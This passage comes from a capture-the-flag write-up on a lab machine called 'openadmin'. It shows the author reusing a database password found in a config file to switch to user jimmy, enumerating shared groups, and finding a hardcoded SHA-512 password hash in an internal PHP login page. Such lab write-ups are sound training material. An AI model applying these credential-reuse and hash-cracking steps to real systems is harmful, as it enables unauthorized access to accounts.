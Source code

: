 ```
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```
We find some very interesting information when reading the file. 
Hopefully we can try to reuse this password to move laterally to one of the other users. Let's try jimmy first. 

```
www-data@openadmin:/var/www/ona/local/config$ su jimmy
su jimmy
Password: n1nj4W4rri0R!

jimmy@openadmin:/opt/ona/www/local/config$ id
id
uid=1000(jimmy) gid=1000(jimmy) groups=1000(jimmy),1002(internal)
```
Success!
Unfortunately, when looking around his directory, nothing of interest was there, no user flag either. And we still cannot access joanna's directory. This must mean we did to move laterally again.

We can check to see what groups is joanna a part of:
```
jimmy@openadmin:~$ groups jimmy
groups jimmy
jimmy : jimmy internal

jimmy@openadmin:~$ groups joanna
groups joanna
joanna : joanna internal
``` 
So they both are a part of the internal group.

Okay well first things first, let's have a look at things we could not access before. 
We can now have a look at /var/www/internal. This is the group they are both a part of.
Reading the index.php file, we see:

```
</head>
   <body>

      <h2>Enter Username and Password</h2>
      <div class = "container form-signin">
        <h2 class="featurette-heading">Login Restricted.<span class="text-muted"></span></h2>
          <?php
            $msg = '';

            if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
              if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
                  $_SESSION['username'] = 'jimmy';
                  header("Location: /main.php");
              } else {
                  $msg = 'Wrong username or password.';
              }
            }
``` 
A crackable hash!

